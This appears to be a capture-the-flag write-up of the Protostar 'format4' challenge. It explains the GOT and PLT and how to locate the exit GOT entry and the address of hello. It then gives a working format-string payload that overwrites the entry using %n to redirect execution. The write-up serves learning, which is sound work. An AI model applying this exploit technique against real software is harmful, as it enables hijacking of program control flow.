 **Format4**


In this challenge we can't just change eip straight from the format string, we have an exit function call right after.

We need to somehow change the exit function field in the .got to the address of hello.



**Got?**

No, not Game of Thrones.
The General Offset Table (GOT for short) is a table of function addresses.

What addresses?
When you use a function from a shared object, for example exit we can't just jump to exit's address because the compiler doesn't know where it is in memory.
That's why when you call a function from a shared object for the first time the Procedure Linkage Table (PLT for short) calls a different function that sets the .got field for exit.

From now on, on every exit call, the plt will jump to whatever address the .got has.



**How Can We Exploit This?**

We need to find where exactly the .got field for exit is located so we can change it's value to hello's address and instead of executing exit we'll simply jump to hello.



**Finding GOT**

If we run the program and try to disassemble exit in gdb, we'll get exit's actual code, which is at (0xb7ec60c0).
We need to try and look at exit before running the program.

![](photos/pre_exec.png)

This is the plt function that checks .got, let's disassemble it

![](photos/exit@plt.png)

There it is!
We need to change this address in order to achieve our goal.



**Finding hello's Address**

```diff
$ readelf -s format4 | grep hello
    64: 080484b4    30 FUNC    GLOBAL DEFAULT   14 hello
```


**Writing The Exploit**

We've already done a few of these format string attacks already, so we're pretty experienced.

We need 3 %x to change our address with a %n.
We need to change it to hello's address.

0x080484b4 - exploit length = our value.
After a few tries in gdb I've constructed the following exploit.

```diff
$ python -c "from struct import pack; print pack('<I', 0x8049724) + '%x '*2 + '%134513827x%n'" | ./format4
...
...
...
...
                                                                                                                                                          bffff614
code execution redirected! you win
```

This took a while to run.